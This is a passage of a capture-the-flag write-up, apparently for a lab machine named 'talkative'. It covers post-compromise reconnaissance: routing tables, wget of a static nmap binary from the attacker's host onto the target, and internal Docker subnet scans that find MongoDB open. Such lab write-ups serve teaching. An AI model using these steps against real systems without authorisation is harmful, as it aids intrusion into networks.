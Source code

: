 ```bash
  IPv4 address for eth0:            10.129.199.0                                                                                                            
  IPv6 address for eth0:            dead:beef::250:56ff:fe96:de36                                                                                           
                                                                                                                                                            
                                                                                                                                                            
18 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Apr 11 06:46:19 2022 from 172.17.0.11
saul@talkative:~$
```


### Host enumeration
We can see the routes assigned in this machine.
```bash
saul@talkative:/tmp$ route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.129.0.1      0.0.0.0         UG    0      0        0 eth0
10.129.0.0      0.0.0.0         255.255.0.0     U     0      0        0 eth0
172.17.0.0      0.0.0.0         255.255.0.0     U     0      0        0 docker0
172.18.0.0      0.0.0.0         255.255.0.0     U     0      0        0 br-ea74c394a147
```

I wonder if there are other hosts in that `docker0` interface. Lets enumerate.
Downloaded `nmap` static binary from [here](https://gitlab.com/pentest-tools/static-binaries/-/blob/master/binaries/linux/x86_64/nmap)and uploaded to the target machine.
```
saul@talkative:/tmp$ wget 10.10.14.7/nmap
--2022-04-11 07:51:27--  http://10.10.14.7/nmap
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5944464 (5.7M) [application/octet-stream]
Saving to: ‘nmap’

nmap                                   100%[============================================================================>]   5.67M  1.25MB/s    in 13s
```

Scan the network `172.17.0.0/24`:
```bash
saul@talkative:/tmp$ ./nmap -sn 172.17.0.0-254 -v
```

### 172.17.0.2 - Open ports
```
saul@talkative:/tmp$ ./nmap -p- --min-rate=1000 -T4 172.17.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-04-11 08:03 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.2
Host is up (0.000087s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
27017/tcp open  unknown
```
